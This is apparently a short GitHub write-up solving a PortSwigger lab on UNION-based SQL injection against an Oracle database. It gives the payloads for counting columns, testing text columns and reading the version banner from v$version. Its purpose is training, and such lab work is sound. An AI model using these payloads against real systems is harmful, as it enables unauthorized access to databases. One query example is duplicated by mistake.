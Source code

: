 ## Lab Description :

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/94218c08-e540-417e-ba81-0ad2e33eb29e)

## Solution :

#### Determine the number of columns 

caputred request

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/8e64ddd1-3a37-47aa-a654-b5c59053a92c)

Quary made-

```sql
SELECT * FROM someTable WHERE category = '<CATEGORY>' ' UNION SELECT NULL,NULL FROM dual--
```
Quary changed-

```sql
SELECT * FROM someTable WHERE category = '<CATEGORY>' ' UNION SELECT NULL,NULL FROM dual--
```

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/dc609252-4473-4d87-b4ad-1e3111d71248)


there are 2 columns being retreived.

#### Determine the column which has text data


```sql
SELECT * FROM someTable WHERE category = '<CATEGORY>' UNION SELECT 'a','b' FROM dual --
```
Both the columns show the text in response. So both columns support text data.

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/25b0b3a5-bdeb-4c98-8b2f-7f77b336e390)


#### Retreive db type & version of ORACLE 

To retretive db type & version of ORACLE , we have the syntax `SELECT * FROM v$version`

```sql
SELECT * FROM someTable WHERE category = '<CATEGORY>' UNION SELECT NULL,banner FROM v$version --
```

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/2d28d4ae-6fda-41bc-9f64-bcf419917157)

lab solved.

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/d4f28761-482e-4e2a-872f-d7a0a6a99258)
